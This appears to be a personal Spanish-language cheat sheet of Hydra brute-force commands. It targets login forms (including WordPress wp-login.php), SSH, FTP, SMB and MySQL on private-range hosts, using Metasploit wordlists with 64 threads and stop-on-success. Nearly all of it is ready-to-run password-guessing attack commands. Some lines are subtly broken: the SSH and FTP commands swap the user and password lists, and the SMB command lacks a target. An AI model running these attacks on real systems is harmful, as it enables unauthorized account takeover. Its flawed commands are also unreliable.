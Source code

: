 # Hydra Fuerza Bruta

Propietario: Adrian Gisbert Cabello

- Comando para HTTP-POST:
    
    `hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.168.X.X http-post-form 'URL:LOGIN_CAPTURADO_EN_BURPSUITE:MENSAJE_DE_ERROR' -t 64 -F`
    
    `hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.168.X.X http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:S=302' -t 64 -F`
    
    Los parámetros ***-t 64*** son los hilos que va a correr y ***-F*** es para que cuando encuentre una combinación válida, se detenga el ataque de fuerza bruta.
    
- Comando para ssh:
    
    `hydra -P /usr/share/metasploit-framework/data/wordlists/unix_users.txt -L /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://192.168.X.X`
    
- Comando para FTP:
    
    `hydra -P /usr/share/metasploit-framework/data/wordlists/unix_users.txt -L /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt [ftp://192.168.X.X](ftp://192.168.x.x/)`
    
- Comando para SMB:
    
    `hydra -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt`
    
- Comando para MySQL:
    
    `hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt mysql://192.168.X.X`
